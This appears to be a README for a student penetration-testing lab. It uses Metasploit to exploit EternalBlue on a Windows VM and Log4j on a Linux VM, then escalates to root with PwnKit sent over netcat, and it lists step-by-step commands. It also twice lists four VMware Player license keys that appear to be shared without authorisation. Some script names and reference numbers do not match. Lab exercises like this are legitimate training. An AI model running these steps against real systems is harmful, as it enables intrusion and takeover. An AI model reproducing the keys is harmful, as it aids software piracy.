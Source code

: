 # IntroMetasploit

BY : :flying_saucer: Cr4zyD14m0nd :milky_way:

## Summary:

Metasploit introduction.

Tasks to do:

1. Exploit an eternal blue vulnarability in windows.
2. Exploit a log4j vulnerability in Linux.

## Description

We will make an attack to two machines and escalate privilege.

- Parrot OS, is an operative system maded for pentesters by pentesters based on debian, it is open source.

- Scripts maded by Cr4zyD14m0nd, these scripts will automate some boring tasks like the instalation of some tools, this scipts are maded in bash.

- Metasploit framework is a very powerful tool which can be used by cybercriminals as well as ethical hackers to probe systematic vulnerabilities on networks and servers.

- EternalBlue exploits SMBv1 vulnerabilities to insert malicious data packets and spread malware over the network. The exploit makes use of the way Microsoft Windows handles, or rather mishandles, specially crafted packets from malicious attackers.

- The Log4j vulnerability allows malicious attackers to execute code remotely on any targeted computer. What is Log4j : Log4j an open source software, a logging library for Java, is widely used by businesses and web portals. Earlier this month, this open source software was in the news for its vulnerabilities.

## Steps To Reproduce:

1. Set up

    1. Download vmware or virtualbox [1]
    Keys for vmware Plater 16.1.1
    ZF3R0-FHED2-M80TY-8QYGC-NPKYF
    YF390-0HF8P-M81RQ-2DXQE-M2UT6
    ZF71R-DMX85-08DQY-8YMNC-PPHV8
    AZ3E8-DCD8J-0842Z-N6NZE-XPKYF
    2. Download Parrot iso or parrot for vms [2]
    3. Follow the links of how to install vmware [3]
    4. Follow the links of how to setup parrot in vmware [4]
    5. Verify that you are using Host only in your parrot machine [5]
    6. Donwload the linux and the windows machines and open it in virtualbox, if you do this in vmware you will get an error message. [6]
    7. Now put the Host Only adapter to the machines. [7]
    8. Turn on your parrot maching and login [8]
    9. Turn on the windows machine and the ubuntu machine [9]
    10. make a git clone from Cr4zyD14m0nd repository from this repository: https://github.com/Cr4zyD14m0nd/TareaSocialEngennering (git clone 'url') [10]

### Windows machine.

1. Windows Attack

    1. In the folder MetasploitIntro you have a script, before do anything you need to be a root user.

        `sudo su`
        `Enter your password`

    2. Now we need to give the permisions to the script.

        `chmod +x IntroMetasploit.sh`

    3. Now run the first script.

        `./InstalacionSetoolkit.sh`

    4. Now we have the script running and all the requirements installed, the next step is navigate through the menu.

        First exploit the windows machine choosing the option 1, once finished the process you can exit and ctrl + c to run again the script and then chose the option 2 to exploit the linux machine.

    5. Enter the required options to the script.

    6. Once you have a meterpreter session you need enter te next commands.

        `getuid`
        `shell`
        `cd ..`
        `cd ..`
        `cd Users`
        `cd Administrator`
        `cd Documents`
        `type secret.txt.txt`
    
    7. Now open a new terminal and use the root user and follow the instructions.

        type in the new terminal `rdesktop 192.168.56.10`, Enter and type yes.
        Once you have a remote desktop go to the Start button click them and navigate to control panel, once you are in the control panel section, go to add or remove accounts, go to administrator and change the password.


    ### Attacking linux

    1. Run the script IntroMetasploit.sh and chose the option 2 and enter the required parameters.

        `./IntroMetasploit.sh`

    2. Now you are in the machine, the next step is get a root user for this we will use the Pwnkit exploit.

        You can download the pwnkit exploit or use it from the folder that you downloaded at the begining

    * https://github.com/ly4k/PwnKit

    3. Now you need to open another terminal in the folder were you have the pwnkit exploit.

    4. in your first terminal type:

        `nc -l -p 1337 > Pwnkit`

    5. In the second terminal type:

        `nc -w 3 192.168.56.20 1337 < Pwnkit`

    6. Now in the first terminal give it the execute permisions to Pwnkit.

        `chmod +x Pwnkit`
    
    7. And then excecute it.

        `./Pwnkit`

    8. Now you are root, to confirm it run the next command.

        `id`
    
    ## Supporting material:

    Download Parrot iso or parrot for vms [1]

    Download vmware or virtualbox [1]
    Keys for vmware Player 16.1.1
    ZF3R0-FHED2-M80TY-8QYGC-NPKYF
    YF390-0HF8P-M81RQ-2DXQE-M2UT6
    ZF71R-DMX85-08DQY-8YMNC-PPHV8
    AZ3E8-DCD8J-0842Z-N6NZE-XPKYF

    Follow the links of how to install vmware [1]
    Follow the links of how to setup parrot in vmware [2]

    [1] https://www.parrotsec.org

    [2] https://www.youtube.com/watch?v=9QXXyG0hKtI
    
    [3] https://www.youtube.com/watch?v=NoivU2LrUrI

    [4] If you dont have the log4j exploit you can download it from here:
    [4] https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/multi/http/log4shell_header_injection.rb

    [5] How to put your adapter in Host only.
    [5] https://www.youtube.com/watch?v=FlP0YUKPHGo
